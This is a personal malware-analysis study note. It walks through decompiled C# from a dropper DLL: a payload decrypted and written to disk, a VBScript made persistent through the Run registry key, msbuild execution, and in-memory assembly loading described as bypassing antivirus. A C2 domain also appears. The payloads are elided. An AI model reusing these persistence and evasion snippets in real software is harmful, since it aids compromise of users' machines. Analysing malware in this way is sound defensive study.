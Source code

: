 ```yaml
---
tags:
  - malware
aliases: 
date-created: 2024-06-20
dg-publish: true
---
```

[[malware]] 
### Introduction 
---
In a C# when performing static analysis by getting the strings - the output is usually cleaner no junk unlike C or C++ binaries.

![[Pasted image 20240620200434.png|350]]

The **mscorlib** is a series of .NET libraries that can be imported to C# - in a compiled language such as C, C++, C# and more - the compiler translates the code into a machine code - however C# takes one more step - the **common language runtime** it is a single set of machine code for many types of languages, so every binary created using the .NET framework will go under the CLT - the **C# compiler** will create what is called **Intermediate Language**, it will acts as a broker between the compiler and the **CLR**.

![[Pasted image 20240620211429.png]]
## dnSpy
---
It will translate the immediate language as closely to the source code as possible:

![[Pasted image 20240621184359.png|450]]

The **EmbedDLL** is the filename when it was compiled but the name now is different.

```C#
// Line 1
byte[] array = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes("p0w3r0verwh3lm1ng!"));     
// Line 2
string text = new StreamReader(new MemoryStream(Cryptor.AES_Decrypt(Convert.FromBase64String("Very Long B64 here"), array))).ReadToEnd();

// Line 3
File.WriteAllText(Environment.GetEnvironmentVariable("public") + "\\embed.xml", text);

// Line 4
string text2 = new StreamReader(new MemoryStream(Convert.FromBase64String("B64"))).ReadToEnd();

// Line 5
File.WriteAllText("C:\\Users\\Public\\Documents\\embed.vbs", text2);
```

- `Line 1` - Hashes the string that is encoded in `UTF-8` using `SHA256` .
- `Line 2` - Decodes the Base64 uses `Line 1` value a symmetric key to decrypt the decoded base64
- `Line 3` - Creates a file in the public directory name `embed.xml` with the value from `Line 2` variable name `text`.
- `Line 4` - Decodes Base64 
- `Line 5` - Creates a VBscript name `embed.vbs` with the contents of `text2` from `Line 4` in the public document directory.

```C#
try
			{
				RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64).OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true).SetValue("embed", "C:\\Users\\Public\\Documents\\embed.vbs");
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
```

The whole code establishes persistence by running the `embed.vbs` everytime the user logs on.
###  Running a DLL
---
Running a `.dll` is not possible as they don't have a main function like an executable file instead it contains functions called by other programs however we can use the built-in tool by Windows name `rundll32 file.dll, func_name`:

![[Pasted image 20240621192723.png]]


```C
rundll32 Malware.cryptlib64.dll,embed
```

Looking at the directories:

![[Pasted image 20240621193145.png]]

It opens the msbuild.exe to build the `embed.xml` and the `.xml` file contains:

![[Pasted image 20240621193302.png]]
It decodes a base64 and invokes what is the result from it and looking at Wireshark it seems to contact this domain:

```
http://srv.masterchiefsgruntemporium.local/en-us/index.html
```

![[Pasted image 20240621200458.png]]

At the registry editor:

![[Pasted image 20240621195928.png]]

A deep dive to the code:

```C#
// Line 0
var oms = new System.IO.MemoryStream();

var ds = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(('Very long'));

var by = new byte[1024];

var r = ds.Read(by, 0, 1024);

while (r > 0) { 
oms.Write(by, 0, r);

r = ds.Read(by, 0, 1024);
}
```

- `Line 1` - Decodes the Base64 encoded string
- `Line 2` - Initialize a byte variable with a size of 1024
- `Line 3` - It reads the value of `ds`  and then uses the `by` to store the decompressed data, the `0` is the offset meaning data is stored in index 0 then specifies the maximum value to read from the stream.
- `Line 4` - Writes a specified number of bytes into a _something_ - the explanation is the same for `Read` as for the parameters passed.

```C#
System.Reflection.Assembly.Load(oms.ToArray()).EntryPoint.Invoke(0, new object[] { new string[]{ } });
```

The ‘something’ is actually from `Line 0` which is a memory stream — the `oms` creates a memory stream and the `Write` function writes it into the memory stream and then is invoked.

- The `System.Reflection.Assembly.Load`  - Load everything into memory bypassing EDR and Antivirus.
- The `oms.ToArray()` value will represent the entry point of the assembly indicated by the `EntryPoint` 
- The `.Invoke` is similar to PowerShell `iex`.
### Questions and Problems
---
So what is the purpose of the malware? (Note: I did not perform basic/advanced analysis — went straight to dnSpy)

The indicators for me are these:

- It contacts the domain ‘http://srv.masterchiefsgruntemporium.local/en-us/index.html’
- It makes a POST request — see **Wireshark Image** which is more likely that the dropper is telling the server ‘Hey I successfully compromised the system’
## Conclusion
---

